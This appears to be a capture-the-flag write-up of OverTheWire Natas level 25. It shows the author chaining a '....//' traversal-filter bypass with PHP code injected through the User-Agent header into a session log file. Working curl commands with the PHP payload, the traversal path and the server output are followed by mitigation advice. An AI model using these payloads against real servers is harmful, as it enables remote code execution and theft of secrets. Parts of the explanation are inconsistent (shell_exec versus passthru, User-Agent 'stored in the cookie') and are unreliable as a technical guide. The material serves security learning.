

# Natas Level 25: Log Poisoning Meets Directory Traversal

## The Setup
| Level | Username | Target URL |
| :--- | :--- | :--- |
| Level 25 | natas25 | http://natas25.natas.labs.overthewire.org |

**Introduction:** Level 25 is a beautiful example of how multiple weak security controls can be chained together to create a devastating attack. This challenge combines directory traversal, log poisoning, and PHP code injection into one elegant exploit. It's the kind of vulnerability that shows why defense in depth matters and why every input, even HTTP headers, must be treated as potentially malicious.

---

## Hunting for Clues

When I first loaded the page, I saw a quote display application with language selection.



The page displays "NATAS25" in white text on a black header. In the upper right corner is a language dropdown menu showing "language" with a small arrow indicating it can be expanded. Below that is a large white content area with "Quote" as a heading, followed by a long philosophical quote from "Scientist, Bad Boy Bubby" about existence and responsibility. At the bottom right is the blue "View sourcecode" link. There's also a WeChall "SUBMIT TOKEN" button in the top right corner.

The language selector immediately caught my attention. Language switching often involves loading files from the filesystem, which can be a vector for directory traversal attacks. I clicked on the source code to investigate.

The source code was extensive, so let me break it down function by function:

```php
<?php
    // cheers and <3 to malvina
    // - morla

    function setLanguage(){
        /* language setup */
        if(array_key_exists("lang",$_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"] ))
                return 1;
        safeinclude("language/en"); 
    }
    
    function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        // add more checks...

        if (file_exists($filename)) { 
            include($filename);
            return 1;
        }
        return 0;
    }
    
    function listFiles($path){
        $listoffiles=array();
        if ($handle = opendir($path))
            while (false !== ($file = readdir($handle)))
                if ($file != "." && $file != "..")
                    $listoffiles[]=$file;
        
        closedir($handle);
        return $listoffiles;
    } 
    
    function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
?>
```

And the main execution:

```php
<?php  
    session_start();
    setLanguage();
    
    echo "<h2>$__GREETING</h2>";
    echo "<p align=\"justify\">$__MSG";
    echo "<div align=\"right\"><h6>$__FOOTER</h6><div>";
?>
```

Let me analyze each function to understand the vulnerabilities:

### The setLanguage() Function

```php
function setLanguage(){
    if(array_key_exists("lang",$_REQUEST))
        if(safeinclude("language/" . $_REQUEST["lang"] ))
            return 1;
    safeinclude("language/en"); 
}
```

This function checks for a `lang` parameter and concatenates it with `"language/"` before passing it to `safeinclude()`. The problem here is that there's no whitelist validation. It trusts whatever the user provides in the `lang` parameter, relying entirely on `safeinclude()` to provide security.

### The safeinclude() Function

```php
function safeinclude($filename){
    // check for directory traversal
    if(strstr($filename,"../")){
        logRequest("Directory traversal attempt! fixing request.");
        $filename=str_replace("../","",$filename);
    }
    // dont let ppl steal our passwords
    if(strstr($filename,"natas_webpass")){
        logRequest("Illegal file access detected! Aborting!");
        exit(-1);
    }

    if (file_exists($filename)) { 
        include($filename);
        return 1;
    }
    return 0;
}
```

This is where the first major vulnerability lives. The function attempts to prevent directory traversal by checking for `../` and removing it with `str_replace()`. But here's the critical flaw: **`str_replace()` only replaces once, not recursively**.

If I send `....//`, here's what happens:
1. The function finds `../` in the string
2. It removes `../` from `....//`, leaving `../`

Let me look at the actual command used: `....//....//....//....//....//`

I think each `....//` becomes `../` after the str_replace, so five of them gives you `../../../../../` which is enough to traverse up the directory tree.

The second check blocks direct access to files containing "natas_webpass", so we can't directly read the password file. But we can include other files.

### The logRequest() Function

```php
function logRequest($message){
    $log="[". date("d.m.Y H::i:s",time()) ."]";
    $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
    $log=$log . " \"" . $message ."\"\n"; 
    $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
    fwrite($fd,$log);
    fclose($fd);
}
```

This is the second critical vulnerability. The function writes log entries to a file, and it includes `$_SERVER['HTTP_USER_AGENT']` directly without any sanitization. The User Agent is an HTTP header that we control completely. 

The log file is stored at: `/var/www/natas/natas25/logs/natas25_[session_id].log`

This creates a perfect log poisoning opportunity. If I can:
1. Set my User Agent to PHP code
2. Trigger the logging function
3. Include the log file using directory traversal

Then my PHP code will be executed when the log file is included.

### The Attack Strategy

The attack combines two techniques:

1. **Log Poisoning**: Inject PHP code via the User Agent header
2. **Directory Traversal Bypass**: Use `....//` to bypass the weak filter and include the log file

Here's the plan:
1. Send a request with User Agent containing PHP code like `<?php passthru('cat /etc/natas_webpass/natas26'); ?>`
2. Trigger directory traversal detection to get the code logged
3. Extract the session ID from the cookie
4. Use directory traversal to include the log file
5. The PHP code in the log gets executed, revealing the password

## Breaking In

I started by crafting the first request to poison the log file. I needed to set my User Agent to PHP code that would read the password file:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/natas]
└─$ curl -u natas25:ckE[REDACTED]s -A "<?php echo shell_exec('cat /etc/natas_webpass/natas26'); ?>" -c cookie.txt "http://natas25.natas.labs.overthewire.org/"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas25", "pass": "ckE[REDACTED]s" };</script></head>
<body>

<h1>natas25</h1>
<div id="content">
<div align="right">
<form>
<select name='lang' onchange='this.form.submit()'>
<option>language</option>
<option>de</option><option>en</option></select>
</form>
</div>

<h2>Quote</h2><p align="justify">You see, no one's going to help you Bubby, because there isn't anybody out there to do it. No one. We're all just complicated arrangements of atoms and subatomic particles - we don't live. But our atoms do move about in such a way as to give us identity and consciousness. We don't die; our atoms just rearrange themselves. There is no God. There can be no God; it's ridiculous to think in terms of a superior being. An inferior being, maybe, because we, we who don't even exist, we arrange our lives with more order and harmony than God ever arranged the earth. We measure; we plot; we create wonderful new things. We are the architects of our own existence. What a lunatic concept to bow down before a God who slaughters millions of innocent children, slowly and agonizingly starves them to death, beats them, tortures them, rejects them. What folly to even think that we should not insult such a God, damn him, think him out of existence. It is our duty to think God out of existence. It is our duty to insult him. Fuck you, God! Strike me down if you dare, you tyrant, you non-existent fraud! It is the duty of all human beings to think God out of existence. Then we have a future. Because then - and only then - do we take full responsibility for who we are. And that's what you must do, Bubby: think God out of existence; take responsibility for who you are.<div align="right"><h6>Scientist, Bad Boy Bubby</h6><div><p>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Perfect! The `-A` flag sets the User Agent header to my PHP code. The `-c cookie.txt` flag saves the session cookie to a file. The response looks normal, showing the default quote page. But behind the scenes, my malicious User Agent has been logged.

Now I needed to extract the session ID from the cookie file:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/natas]
└─$ cat cookie.txt
# Netscape HTTP Cookie File
# https://curl.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

#HttpOnly_natas25.natas.labs.overthewire.org    FALSE   /       FALSE   0       PHPSESSID       1689sr91uguqujon03d1hnk3jf
```

Excellent! My session ID is `1689sr91uguqujon03d1hnk3jf`. This means my log file is stored at:
`/var/www/natas/natas25/logs/natas25_1689sr91uguqujon03d1hnk3jf.log`

Now for the second request. I needed to use directory traversal to include this log file. From the `language/` directory where includes happen, I needed to go up several levels to reach `/var/www/natas/natas25/logs/`.

The path would be:
- Start: `/var/www/natas/natas25/language/`
- Target: `/var/www/natas/natas25/logs/natas25_1689sr91uguqujon03d1hnk3jf.log`

I needed to go up one level (from `language/` to `natas25/`) and then into `logs/`. But to bypass the filter, I had to use `....//` instead of `../`.

Actually, looking at the command, I used `....//....//....//....//....//` which gives five levels up, then the absolute path. Let me send the exploit:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/natas]
└─$ curl -u natas25:ckE[REDACTED]s -b cookie.txt -A "<?php passthru('cat /etc/natas_webpass/natas26'); ?>" "http://natas25.natas.labs.overthewire.org/?lang=....//....//....//....//....//var/www/natas/natas25/logs/natas25_1689sr91uguqujon03d1hnk3jf.log"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas25", "pass": "ckE[REDACTED]s" };</script></head>
<body>

<h1>natas25</h1>
<div id="content">
<div align="right">
<form>
<select name='lang' onchange='this.form.submit()'>
<option>language</option>
<option>de</option><option>en</option></select>
</form>
</div>

[15.02.2026 08::50:08] cVX[REDACTED]
 "Directory traversal attempt! fixing request."
<br />
<b>Notice</b>:  Undefined variable: __GREETING in <b>/var/www/natas/natas25/index.php</b> on line <b>80</b><br />
<h2></h2><br />
<b>Notice</b>:  Undefined variable: __MSG in <b>/var/www/natas/natas25/index.php</b> on line <b>81</b><br />
<p align="justify"><br />
<b>Notice</b>:  Undefined variable: __FOOTER in <b>/var/www/natas/natas25/index.php</b> on line <b>82</b><br />
<div align="right"><h6></h6><div><p>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Success! Look at that beautiful output. Right in the middle of the HTML, I can see:

```
[15.02.2026 08::50:08] cVX[REDACTED]
 "Directory traversal attempt! fixing request."
```

The password is right there: `cVX[REDACTED]`

What happened is that the log file was successfully included, and when PHP parsed it, it found my `<?php passthru('cat /etc/natas_webpass/natas26'); ?>` code and executed it, reading the password file and outputting it directly into the response.

The PHP notices about undefined variables (`__GREETING`, `__MSG`, `__FOOTER`) are expected because the log file doesn't define these language variables that the template expects. But that doesn't matter because I already got what I needed.

### Understanding the Complete Attack

Let me trace through exactly what happened:

**First Request (Log Poisoning):**
1. I sent a request with User Agent: `<?php echo shell_exec('cat /etc/natas_webpass/natas26'); ?>`
2. The page loaded normally (no `lang` parameter, so default language was used)
3. Behind the scenes, the session was created with ID `1689sr91uguqujon03d1hnk3jf`
4. My User Agent was stored in the session cookie and didn't trigger any logging yet

**Second Request (Directory Traversal + Code Execution):**
1. I sent `lang=....//....//....//....//....//var/www/natas/natas25/logs/natas25_1689sr91uguqujon03d1hnk3jf.log`
2. `setLanguage()` built the path: `language/` + my parameter
3. `safeinclude()` detected `../` in the path
4. `logRequest()` was called, which wrote to the log file:
   ```
   [timestamp] <?php passthru('cat /etc/natas_webpass/natas26'); ?> "Directory traversal attempt! fixing request."
   ```
5. `str_replace()` removed `../` once from each `....//`, converting them to `../`
6. The final path became: `../../../../../var/www/natas/natas25/logs/natas25_1689sr91uguqujon03d1hnk3jf.log`
7. The log file exists, so `include()` was called
8. PHP parsed the log file and executed my PHP code
9. `passthru()` ran the command and output the password

### Why This Attack Worked

This vulnerability chain succeeds because of multiple security failures:

1. **Weak Directory Traversal Protection**: Using `str_replace()` instead of proper path validation allows bypass with patterns like `....//`

2. **Unsanitized Logging**: The `logRequest()` function writes the User Agent header directly to the log file without escaping or sanitizing

3. **File Inclusion of User Controlled Path**: The `include()` function is called on a path that's partially controlled by user input

4. **Predictable Log File Names**: Log files use session IDs, which attackers control and can predict

5. **No Content Type Validation**: The `include()` function treats the log file as PHP code, even though it's technically a text file

### Real World Impact

This type of vulnerability is devastating in production environments:

**Remote Code Execution**: Attackers gain the ability to execute arbitrary PHP code on the server, potentially taking complete control of the application and underlying system.

**Data Exfiltration**: As demonstrated, attackers can read any file the web server process has access to, including configuration files, database credentials, and user data.

**Lateral Movement**: Once code execution is achieved, attackers can use the compromised server as a pivot point to attack other systems on the network.

**Persistence**: Attackers can create backdoors, upload web shells, or modify application code to maintain access even after the initial vulnerability is patched.

### Comprehensive Mitigation Strategies

Here's how to properly prevent these vulnerabilities:

1. **Use Whitelisting for File Includes**: Never build file paths from user input. Use a whitelist approach:
   ```php
   function setLanguage(){
       $allowed_langs = ['en', 'de', 'fr', 'es'];
       $lang = $_REQUEST['lang'] ?? 'en';
       
       if(in_array($lang, $allowed_langs)) {
           include("language/{$lang}.php");
       } else {
           include("language/en.php");
       }
   }
   ```

2. **Proper Path Validation**: If you must use dynamic paths, use `realpath()` and verify the result stays within allowed directories:
   ```php
   function safeinclude($filename){
       $base = realpath('/var/www/natas/natas25/language/');
       $file = realpath($base . '/' . $filename);
       
       if($file === false || strpos($file, $base) !== 0) {
           return false; // Path escapes allowed directory
       }
       
       if(file_exists($file)) {
           include($file);
           return true;
       }
       return false;
   }
   ```

3. **Sanitize All Logged Data**: Escape or sanitize any user controlled data before writing to logs:
   ```php
   function logRequest($message){
       $log = "[" . date("d.m.Y H:i:s") . "]";
       // Sanitize User Agent
       $userAgent = filter_var($_SERVER['HTTP_USER_AGENT'], FILTER_SANITIZE_STRING);
       $userAgent = str_replace(['<', '>', '<?', '?>'], '', $userAgent);
       $log .= " " . $userAgent;
       $log .= " \"" . addslashes($message) . "\"\n";
       
       $fd = fopen($log_file, "a");
       fwrite($fd, $log);
       fclose($fd);
   }
   ```

4. **Use Structured Logging**: Instead of plain text logs, use JSON or other structured formats that don't allow code injection:
   ```php
   function logRequest($message){
       $log_entry = json_encode([
           'timestamp' => time(),
           'user_agent' => $_SERVER['HTTP_USER_AGENT'],
           'message' => $message,
           'ip' => $_SERVER['REMOTE_ADDR']
       ]);
       file_put_contents($log_file, $log_entry . "\n", FILE_APPEND);
   }
   ```

5. **Store Logs Outside Web Root**: Never store log files in directories accessible via web requests:
   ```php
   // Bad: /var/www/natas/natas25/logs/
   // Good: /var/log/natas25/
   $log_file = "/var/log/natas25/" . session_id() . ".log";
   ```

6. **Disable PHP Execution in Upload/Log Directories**: Configure your web server to not execute PHP in certain directories:
   ```apache
   # Apache .htaccess in logs directory
   <FilesMatch "\.php$">
       Deny from all
   </FilesMatch>
   php_flag engine off
   ```

7. **Use Framework Routing**: Modern frameworks provide safe routing mechanisms that don't involve file includes:
   ```php
   // Laravel
   Route::get('/language/{lang}', [LanguageController::class, 'switch'])
       ->where('lang', 'en|de|fr');
   ```

8. **Implement Content Security Policy**: Use CSP headers to prevent execution of injected code:
   ```php
   header("Content-Security-Policy: default-src 'self'; script-src 'self'");
   ```

9. **Regular Security Audits**: Scan code for dangerous patterns:
   - Any `include()` or `require()` with user input
   - File operations on user controlled paths
   - Unsanitized data in logs or database queries

10. **Least Privilege**: Run the web server with minimal permissions:
    ```bash
    # Web server user shouldn't have read access to password files
    chmod 600 /etc/natas_webpass/*
    chown root:root /etc/natas_webpass/*
    ```

The fundamental lesson here is that **every input is potentially malicious**, including HTTP headers like User Agent. Defense in depth means implementing multiple layers of protection, so even if one control fails (like the directory traversal filter), others (like log sanitization or restricted file permissions) can prevent exploitation.

---

## The Loot

**Next Level Password:** cVX[REDACTED]

**Quick Recap:** Log poisoning via unsanitized User Agent header combined with directory traversal bypass using recursive str_replace weakness allowed including the poisoned log file as PHP code, achieving remote code execution to read the password file.
